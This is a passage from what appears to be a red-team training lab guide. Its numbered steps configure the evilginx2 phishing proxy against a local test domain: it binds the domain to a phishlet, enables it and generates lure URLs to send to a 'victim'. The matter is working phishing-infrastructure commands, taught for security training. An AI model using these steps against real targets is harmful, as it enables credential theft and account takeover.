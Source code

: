     This sets our phishing domain to `sec565.phish` as that's what we put in our hosts file. 
    In a real operation you'd obviously need to specify an actual domain that you own. 

    Since we are running in dev mode, the domain verification check is not being enforced, hence why we set our IPV4 to loopback. 


    ![](media/evilginx2.png)


24. Now that we have set the phishing domain and server IP, we can tie our phishing domain to our phishlet. We do this using the following command

    ```bash
    phishlets hostname sec565rocks sec565.phish
    ```

25. Once we have tied our phishing domain to our phishlet, we can enable the phishlet. 

    ```bash
    phishlets enable sec565rocks
    ```

26. Now that we have enabled our phishlet, we can generate lures for our phishlet. A lure is going to be the link we actually send to our victim. 


    ```bash
    lures create sec565.rocks
    ```

    Once we have a lure created we can get the lure URL using 

    ```bash
    lures get-url <lure ID> 
    ```

    for example

    ```bash
    lures get-url 0
    ```

